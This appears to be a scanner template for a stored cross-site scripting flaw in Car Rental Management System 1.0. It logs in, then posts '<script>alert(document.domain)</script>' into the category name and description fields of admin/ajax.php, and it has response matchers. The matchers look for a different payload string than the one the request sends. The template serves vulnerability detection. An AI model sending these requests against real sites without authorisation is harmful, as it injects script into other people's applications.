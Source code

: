 ### Matchers

**Type - status**

- status
  1. 200

**Type - word**

- words
  1. \<script>alert(31337)\</script>
- part - body

**Type - word**

- words
  1. text/html
- part - header

---

# Car Rental Management System 1.0 - Cross-Site Scripting

## Description

- Car Rental Management System 1.0 contains a cross-site scripting vulnerability via admin/ajax.php?action=save_category in Name and Description parameter.

- severity - medium
- tags - xss,cms,authenticated,edb

## Requests

### Step - 1

```
POST /admin/ajax.php?action=login HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

username={{username}}&password={{password}}

```

### Step - 2

```
POST /admin/ajax.php?action=save_category HTTP/1.1
Host: {{Hostname}}
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryCMJ5bh3B6m9767Em

------WebKitFormBoundaryCMJ5bh3B6m9767Em
Content-Disposition: form-data; name="id"

------WebKitFormBoundaryCMJ5bh3B6m9767Em
Content-Disposition: form-data; name="name"

</script><script>alert(document.domain)</script>
------WebKitFormBoundaryCMJ5bh3B6m9767Em
Content-Disposition: form-data; name="description"

<script>alert(document.domain)</script>
------WebKitFormBoundaryCMJ5bh3B6m9767Em--

```
